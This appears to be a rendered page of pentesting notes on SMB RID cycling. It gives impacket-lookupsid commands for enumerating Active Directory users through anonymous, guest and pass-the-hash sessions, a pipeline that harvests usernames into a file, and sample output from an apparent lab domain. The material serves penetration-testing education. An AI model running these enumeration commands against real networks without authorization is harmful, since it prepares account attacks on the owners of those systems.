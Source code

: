 [SMB (Server Message Block) Pentesting](https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/)

[**#RID Cycling Attack**]

RID enumeration.  
It attempts to enumerate user accounts through null sessions.
```sh
# Anonymous logon
# 20000: Maximum RID to be cycled
impacket-lookupsid example.local/anonymous@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000 -no-pass
impacket-lookupsid example.local/guest@<target-ip> 20000
# Specify user
impacket-lookupsid example.local/user@<target-ip> 20000 -hashes <lmhash>:<nthash>
impacket-lookupsid example.local/user@<target-ip> 20000


# USEFUL COMMAND
# This command extract usernames. It's useful for further enumeration which uses usernames.
# Replace the following keywords:
#  - `example.com` => Target domain
#  - `10.0.0.1`    => Target IP
#  - `DOMAIN`      => Target domain name
impacket-lookupsid example.com/guest@10.0.0.1 20000 -no-pass > tmp.txt | cat tmp.txt | grep SidTypeUser | cut -d ' ' -f 2 | sed 's/DOMAIN\\//g' | sort -u > users.txt && rm tmp.txt
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

<🔄 Alternative Step>

`impacket-lookupsid -no-pass 'SOUPEDECODE.LOCAL/anonymous@192.168.56.128'`:
```
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 192.168.56.128
[*] StringBinding ncacn_np:192.168.56.128[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2986980474-46765180-2505414164
498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SOUPEDECODE\Administrator (SidTypeUser)
501: SOUPEDECODE\Guest (SidTypeUser)
502: SOUPEDECODE\krbtgt (SidTypeUser)
512: SOUPEDECODE\Domain Admins (SidTypeGroup)
513: SOUPEDECODE\Domain Users (SidTypeGroup)
514: SOUPEDECODE\Domain Guests (SidTypeGroup)
515: SOUPEDECODE\Domain Computers (SidTypeGroup)
516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
517: SOUPEDECODE\Cert Publishers (SidTypeAlias)
518: SOUPEDECODE\Schema Admins (SidTypeGroup)
519: SOUPEDECODE\Enterprise Admins (SidTypeGroup)
520: SOUPEDECODE\Group Policy Creator Owners (SidTypeGroup)
521: SOUPEDECODE\Read-only Domain Controllers (SidTypeGroup)
522: SOUPEDECODE\Cloneable Domain Controllers (SidTypeGroup)
525: SOUPEDECODE\Protected Users (SidTypeGroup)
526: SOUPEDECODE\Key Admins (SidTypeGroup)
527: SOUPEDECODE\Enterprise Key Admins (SidTypeGroup)
553: SOUPEDECODE\RAS and IAS Servers (SidTypeAlias)
571: SOUPEDECODE\Allowed RODC Password Replication Group (SidTypeAlias)
572: SOUPEDECODE\Denied RODC Password Replication Group (SidTypeAlias)
1000: SOUPEDECODE\DC01$ (SidTypeUser)
1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
1103: SOUPEDECODE\bmark0 (SidTypeUser)
1104: SOUPEDECODE\otara1 (SidTypeUser)
1105: SOUPEDECODE\kleo2 (SidTypeUser)
```
